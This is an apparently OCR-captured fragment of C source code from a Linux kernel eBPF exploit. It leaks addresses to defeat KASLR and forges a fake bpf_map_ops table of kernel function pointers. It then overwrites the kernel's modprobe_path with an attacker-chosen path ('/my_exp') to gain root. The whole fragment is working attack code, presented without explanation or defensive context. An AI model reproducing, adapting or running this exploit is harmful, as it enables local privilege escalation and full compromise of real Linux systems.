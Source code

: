 ```c
    memset(ctrlbuf,0,0x100);
    bpf_lookup_elem(ctrlmapfd,&key,ctrlbuf);
    x64dump(ctrlbuf,8);
    bpf_lookup_elem(expmapfd,&key,expbuf);
    x64dump(expbuf,8);
    uint64_t map_leak = ctrlbuf64[2];
    uint64_t elem_leak = ctrlbuf64[3]-0xc0+0x110;
    //uint64_t kaslr = map_leak - 0xffffffff82016340;
    uint64_t kaslr = map_leak - 0xffffffff820488c0;
    loglx("map_leak",map_leak);
    loglx("elem_leak",elem_leak);
    loglx("kaslr",kaslr);
    //loglx("modprobe",modprobe_path);
    getchar();
    uint64_t fake_map_ops[]={
        kaslr + 0xffffffff811f9d70,
        kaslr + 0xffffffff811fae80,
        0x0,
        kaslr + 0xffffffff811fa5e0,
        kaslr + 0xffffffff811f9e60, //get net key 5
        0x0,
        0x0,
        kaslr + 0xffffffff811dee60,
        0x0,
        kaslr + 0xffffffff811dec20,
        0x0,
        kaslr + 0xffffffff811f9f20,
        kaslr + 0xffffffff811fa4c0,
        kaslr + 0xffffffff811f9ea0,
        kaslr + 0xffffffff811f9e60, //map_push_elem 15
        0x0,
        0x0,
        0x0,
        0x0,
        kaslr + 0xffffffff811fa210,
        0x0,
        kaslr + 0xffffffff811fa030,
        kaslr + 0xffffffff811fac70,
        0x0,
        0x0,
        0x0,
        kaslr + 0xffffffff811f9df0,
        kaslr + 0xffffffff811f9e20,
        kaslr + 0xffffffff811f9fc0,
        0,
    };

    // overwrite bpf_map_ops
    memcpy(expbuf,(void *)fake_map_ops,sizeof(fake_map_ops));
    bpf_update_elem(expmapfd,&key,expbuf,0);

    //overwrite fake ops
    ctrlbuf64[0]=0x2;
    ctrlbuf64[1]=0x2;
    bpf_update_elem(ctrlmapfd,&key,ctrlbuf,0);
    bpf_update_elem(expmapfd,&key,expbuf,0);
    writemsg();
    uint64_t modprobe_path = 0xFFFFFFFF826613C0+kaslr;
    expbuf64[0] = 0x5f796d2f - 1;
    bpf_update_elem(expmapfd,&key,expbuf,modprobe_path);
    expbuf64[0] = 0x00707865 - 1;
    bpf_update_elem(expmapfd,&key,expbuf,modprobe_path+4);
    return;
```